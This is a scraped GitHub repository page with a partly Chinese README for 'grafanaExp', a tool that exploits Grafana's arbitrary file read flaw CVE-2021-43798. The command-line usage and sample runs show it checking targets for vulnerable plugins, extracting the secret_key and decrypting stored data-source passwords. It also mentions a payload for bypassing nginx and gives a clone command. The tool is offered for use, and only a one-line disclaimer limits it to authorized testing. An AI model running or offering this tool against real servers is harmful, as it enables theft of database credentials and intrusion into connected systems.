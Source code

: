 # grafanaExp

A exploit tool for Grafana Unauthorized arbitrary file reading vulnerability (CVE-2021-43798), it can burst plugins / extract secret_key / decrypt data_source info automatic.

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/A-D-Team](https://github.com/A-D-Team) |
| Url      | [https://github.com/A-D-Team/grafanaExp](https://github.com/A-D-Team/grafanaExp)                                               |
| Stars    | 222                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve-2021-43798* exploit* grafana

</details>

## Readme

# grafanaExp

利用grafana CVE-2021-43798任意文件读漏洞，自动探测是否有漏洞、存在的plugin、提取密钥、解密server端db文件，并输出`data_sourrce`信息。

## 使用方法
提供exp和decode功能。
```
➜  ./grafanaExp -h
NAME:
   grafanaExp - Exploit Grafana with CVE-2021-43798 Arbitrary File Read.

USAGE:
   grafanaExp [global options] command [command options] [arguments...]

AUTHOR:
   A&D-Team

COMMANDS:
   exp      -u [url] -p [plugin] -c [config] -d [db] -k [key]
   decode   decode -f [dbfile] -k [key]
   help, h  Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --help, -h  show help (default: false)

```

### Exp
自动探测是否有漏洞、存在的plugin、提取密钥、解密server端db文件，并输出`data_souce`信息：
```
➜  ./grafanaExp exp -u http://localhost:3000/ 
2021/12/07 22:19:10 Target vulnerable has plugin [alertlist]
2021/12/07 22:19:10 Get secret_key [SW2YcwTIb9zpOOhoPsMm]
2021/12/07 22:19:10 type:[mysql]        name:[MySQL_01]         url:[test.mysql.io:3306]        user:[root]     password[rootpassword]  database:[test_dbname]  basic_auth_user:[]      basic_auth_password:[]
2021/12/07 22:19:10 type:[mssql]        name:[Mssql_01]         url:[test_sqlserver:1433]       user:[admin]    password[adminpassword] database:[db_sqlserver] basic_auth_user:[]      basic_auth_password:[]
2021/12/07 22:19:10 type:[elasticsearch]        name:[es_01]            url:[http://localhost:9200]     user:[] password[]      database:[]     basic_auth_user:[basic_user]    basic_auth_password:[basic_pass]
2021/12/07 22:19:10 type:[postgres]     name:[Postgre_01]               url:[Postgre_01:5432]   user:[pppp]     password[sssswwwww]     database:[postgredb]    basic_auth_user:[]      basic_auth_password:[]
2021/12/07 22:19:10 All Done, have nice day!

```

### Decode
当DB文件太大的时候，可先下载到本地，之后再本地解密：
```
➜ ./grafanaExp decode -f grafana.db -k SW2YcwTIb9zpOOhoPsMm
2021/12/07 23:00:20 type:[mysql]        name:[MySQL_01]         url:[test.mysql.io:3306]        user:[root]     password[rootpassword]  database:[test_dbname]  basic_auth_user:[]      basic_auth_password:[]
2021/12/07 23:00:20 type:[mssql]        name:[Mssql_01]         url:[test_sqlserver:1433]       user:[admin]    password[adminpassword] database:[db_sqlserver] basic_auth_user:[]      basic_auth_password:[]
2021/12/07 23:00:20 type:[elasticsearch]        name:[es_01]            url:[http://localhost:9200]     user:[] password[]      database:[]     basic_auth_user:[basic_user]    basic_auth_password:[basic_pass]
2021/12/07 23:00:20 type:[postgres]     name:[Postgre_01]               url:[Postgre_01:5432]   user:[pppp]     password[sssswwwww]     database:[postgredb]    basic_auth_user:[]      basic_auth_password:[]
```

## 更新
```
1、支持https （昨天没加因为 transport会有一些奇奇怪怪的问题
2、增加darwin的执行文件
3、增加绕过nginx的paylaod （裸改了一下net/http
```

## 申明

本程序应仅用于授权的安全测试与研究目的



## Get the content

```
git clone https://github.com/A-D-Team/grafanaExp
cd grafanaExp
```

{% embed url="https://github.com/A-D-Team/grafanaExp" %}

<figure><img src="https://avatars.githubusercontent.com/u/94842031?v=4" alt=""><figcaption><p>A-D-Team</p></figcaption></figure>
